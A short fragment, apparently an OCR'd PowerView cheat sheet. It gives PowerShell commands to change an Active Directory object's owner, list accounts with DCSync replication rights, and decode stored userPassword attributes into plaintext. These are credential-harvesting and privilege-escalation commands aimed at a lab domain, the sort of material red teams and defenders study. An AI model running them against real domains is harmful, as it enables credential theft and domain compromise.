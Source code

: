 ```
Set-DomainObjectOwner -Identity dfm -OwnerIdentity harmj0y
```
# retrieve *most* users who can perform DC replication for dev.testlab.local (i.e. DCsync)
```
Get-ObjectACL "DC=testlab,DC=local" -ResolveGUIDs | ? {
    ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')
}
```
# check if any user passwords are set
```
$FormatEnumerationLimit=-1;Get-DomainUser -LDAPFilter '(userPassword=*)' -Properties samaccountname,memberof,userPassword | % {Add-Member -InputObject $_ NoteProperty 'Password' "$([System.Text.Encoding]::ASCII.GetString($_.userPassword))" -PassThru} | fl
```
